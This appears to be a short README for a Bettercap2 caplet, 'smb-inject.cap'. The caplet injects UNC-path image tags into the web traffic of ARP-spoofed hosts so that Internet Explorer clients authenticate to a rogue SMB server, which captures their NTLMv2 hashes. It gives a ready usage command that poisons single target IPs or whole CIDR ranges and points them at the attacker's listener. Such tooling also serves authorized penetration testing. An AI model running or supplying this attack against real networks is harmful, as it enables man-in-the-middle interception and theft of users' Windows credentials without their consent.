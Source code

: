 # Bettercap2 Caplets

### smb-inject.cap
<br>__Description__: _Injects HTML image tags using UNC file path references (file://ip/smb.jpg). Forces clients rendering HTML in Internet Explorer, or applications using Windows IE objects, to connect to your SMB server. Run a rogue SMB server to capture NTLMv2 hashes_
<br>__Related JS__: smb-inject.js
<br>__Usage__:
<br>`bettercap -caplet smb-inject.cap -eval "set arp.spoof.targets IP; set smb.listener.ip SMB.Server.IP"`
<br>__smb.listener.ip__ is the IP to your rogue SMB server
<br>__arp.spoof.targets__ is the IP (single or CIDR notation) of the range to poison/spoof

